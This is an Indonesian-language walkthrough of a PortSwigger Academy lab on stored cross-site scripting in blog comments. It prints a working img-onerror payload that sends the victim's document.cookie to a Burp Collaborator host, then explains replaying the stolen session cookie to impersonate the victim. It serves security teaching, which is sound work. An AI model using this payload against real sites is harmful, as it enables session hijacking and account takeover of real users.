 
# Exploiting cross-site scripting to steal cookies

# Mengeksploitasi Cross-Site Scripting untuk Mencuri Cookie

Lab ini mengandung kerentanan **Stored XSS** pada fungsi komentar blog. Pengguna yang menjadi korban akan melihat semua komentar setelah diposting. Untuk menyelesaikan lab ini, eksploitasi kerentanan ini untuk mencuri cookie sesi korban, kemudian gunakan cookie tersebut untuk menyamar sebagai korban.

**Catatan:** Untuk mencegah platform Academy digunakan untuk menyerang pihak ketiga, firewall kami memblokir interaksi antara lab dan sistem eksternal yang sewenang-wenang. Untuk menyelesaikan lab ini, Anda harus menggunakan server publik default Burp Collaborator.

Beberapa pengguna mungkin menyadari bahwa ada solusi alternatif untuk lab ini yang tidak memerlukan Burp Collaborator. Namun, metode ini jauh kurang halus dibandingkan dengan mencuri cookie.

---------------------------------------------

## Referensi:

- [PortSwigger: Exploiting Cross-Site Scripting](https://portswigger.net/web-security/cross-site-scripting/exploiting)

---------------------------------------------

## Langkah-Langkah Eksploitasi

### 1. Menguji Kerentanan XSS pada Salah Satu Postingan Blog

Pertama, kita menguji apakah terdapat kerentanan XSS pada salah satu postingan blog. Payload berikut berhasil:

```html
</p><img src=x onerror=alert(1) /><p>
```

![Langkah 1](images/Exploiting%20cross-site%20scripting%20to%20steal%20cookies/1.png)

### 2. Mencoba Payload untuk Mencuri Cookie Sesi

Selanjutnya, kita mencoba payload yang akan mengirimkan cookie sesi korban ke server Burp Collaborator:

```javascript
'document.location="http://s2v2in38mu6tj6w733goro9f066xunic.oastify.com/?cookies="+document.cookie'
```

Payload lengkap yang dimasukkan ke dalam komentar blog:

```html
</p><img src=x onerror='document.location="http://s2v2in38mu6tj6w733goro9f066xunic.oastify.com/?cookies="+document.cookie' /><p>
```

Setelah payload dijalankan, kita menerima cookie di Burp Collaborator:

![Langkah 2](images/Exploiting%20cross-site%20scripting%20to%20steal%20cookies/2.png)

### 3. Menggunakan Cookie untuk Menyamarkan Diri sebagai Korban

Kemudian, kita intercept permintaan ke halaman Home dan menambahkan cookie yang telah dicuri:

![Langkah 3](images/Exploiting%20cross-site%20scripting%20to%20steal%20cookies/3.png)

Dengan menambahkan cookie tersebut, kita dapat menyamar sebagai korban dan mengakses akun mereka.

## Penjelasan

**Cross-Site Scripting (XSS)** adalah kerentanan keamanan yang memungkinkan penyerang untuk menyuntikkan skrip berbahaya ke dalam situs web yang dipercaya oleh pengguna. Dalam kasus ini, kerentanan **Stored XSS** memungkinkan skrip berbahaya disimpan di server (misalnya, dalam komentar blog) dan dijalankan setiap kali pengguna melihat konten tersebut.

### Payload Pertama

Payload pertama:

```html
</p><img src=x onerror=alert(1) /><p>
```

Payload ini menutup tag `<p>`, menyisipkan elemen gambar dengan sumber yang tidak valid (`src=x`), dan menetapkan event handler `onerror` yang akan memicu `alert(1)` ketika gambar gagal dimuat. Ini adalah cara sederhana untuk menguji apakah input kita dieksekusi sebagai HTML/JavaScript.

### Payload Kedua

Payload kedua:

```html
</p><img src=x onerror='document.location="http://s2v2in38mu6tj6w733goro9f066xunic.oastify.com/?cookies="+document.cookie' /><p>
```

Payload ini lebih kompleks dan bertujuan untuk mencuri cookie sesi pengguna. Ketika gambar gagal dimuat, event handler `onerror` akan mengalihkan lokasi dokumen ke URL Burp Collaborator dengan menambahkan cookie sesi (`document.cookie`) sebagai parameter query. Server Burp Collaborator kemudian menerima cookie tersebut, yang dapat digunakan untuk menyamar sebagai pengguna yang sah.

### Menyamarkan Diri dengan Cookie

Setelah mendapatkan cookie sesi korban, kita dapat menggunakannya untuk mengakses aplikasi web sebagai korban. Dengan menambahkan cookie ini ke permintaan HTTP kita (misalnya, melalui proxy seperti Burp Suite), server akan menganggap kita sebagai pengguna yang sah dan memberikan akses sesuai dengan hak istimewa pengguna tersebut.

## Kesimpulan

Eksploitasi **Stored XSS** memungkinkan penyerang untuk mencuri cookie sesi pengguna dan menyamar sebagai mereka, memberikan akses tidak sah ke akun pengguna. Penting untuk selalu memvalidasi dan menyaring input pengguna untuk mencegah kerentanan XSS.

# Referensi Tambahan

- [OWASP Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)

# Disclaimer

Tutorial ini disediakan hanya untuk tujuan pendidikan dan penelitian keamanan. Jangan gunakan teknik ini untuk aktivitas ilegal atau tanpa izin.

# Gambar Pendukung

![Langkah 1](images/Exploiting%20cross-site%20scripting%20to%20steal%20cookies/1.png)

![Langkah 2](images/Exploiting%20cross-site%20scripting%20to%20steal%20cookies/2.png)

![Langkah 3](images/Exploiting%20cross-site%20scripting%20to%20steal%20cookies/3.png)

# Terima Kasih

Semoga panduan ini bermanfaat dalam memahami dan mengatasi kerentanan Cross-Site Scripting!

# Tags

#XSS #KeamananWeb #CyberSecurity #PenetrationTesting #StoredXSS #Cookies #BurpCollaborator

Then intercept the request to the Home page and add these cookies:



![img](images/Exploiting%20cross-site%20scripting%20to%20steal%20cookies/3.png)
